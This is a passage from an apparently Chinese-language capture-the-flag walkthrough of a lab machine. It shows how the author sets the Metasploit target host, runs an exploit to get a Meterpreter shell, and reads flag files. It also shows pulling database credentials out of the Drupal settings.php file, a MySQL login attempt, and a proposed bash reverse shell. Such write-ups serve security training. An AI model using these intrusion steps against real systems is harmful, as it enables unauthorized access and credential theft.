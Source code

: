 设置rhosts，修改为自己找到的靶机的ip

`set rhost 192.168.43.152`

然后输入exploit执行

![image-20211027165130350](images/11.png)

看到`Meterpreter session 1 opened` 出现，说明已经攻击成功了，输入shell命令，进行交互。也可以直接这里执行命令

![image-20211027165156597](images/12.png)

看到了flag1.txt,读一下

![image-20211027165221500](images/13.png)

意思是让我们去找一下配置文件

![image-20211027165736806](images/14.png)

网上搜到配置文件再sites/default下的default.setting.php下

![image-20211027165921210](images/15.png)

但是我没找到什么的东西,结果他的信息在settings.php中,而不是default.settings.php中

![image-20211027170322150](images/16.png)

看到了flag2另外还收获了数据库的账户密码

```
flag2

Brute force and dictionary attacks aren't the
only ways to gain access (and you WILL need access).
What can you do with these credentials?

暴力和字典攻击不是最常见的
只有获得访问权限的方法（您将需要访问权限）。
你能用这些证书做什么？
```

获得了数据库密码，登陆数据库看看

```
mysql -u dbuser -p
```

但是并没有成功登陆

![image-20211027171733470](images/17.png)

![image-20211027172817084](images/18.png)

进入shell命令行反弹shell试试

可以直接bash一句话反弹
